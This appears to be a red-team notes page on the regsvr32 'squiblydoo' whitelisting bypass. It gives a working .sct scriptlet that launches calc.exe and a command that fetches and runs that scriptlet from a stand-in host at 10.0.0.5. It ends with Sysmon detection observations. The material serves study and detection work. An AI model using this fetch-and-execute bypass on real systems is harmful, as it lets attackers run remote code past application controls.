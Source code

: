 ```yaml
---
description: >-
  Bypass application whitelisting software by utilizing tools that are built
  into the operating system by default.
---
```


# regsvr32 aka squiblydoo

## Code

{% code-tabs %}
{% code-tabs-item title="back.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>
<registration
  progid="TESTING"
  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
  <script language="JScript">
    <![CDATA[
      var foo = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
    ]]>
</script>
</registration>
</scriptlet>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Execution

We can then execute the code from the command prompt:

```bash
regsvr32.exe /s /i:http://10.0.0.5/back.sct scrobj.dll
```

## Observations

![calc.exe spawned by regsvr32.exe](../.gitbook/assets/regsvr32.png)

Note how regsvr32 process exits almost immediately. This means just by looking at the process list you may not suspect a process until you realise how it was invoked. Sysmon commandline parameters logging capability though will show what you need to see:

![](../.gitbook/assets/regsvr32-commandline%20%281%29.png)

Additionally, sysmon will show regsvr32 establishing a network connection:

![](../.gitbook/assets/regsvr32-network.png)

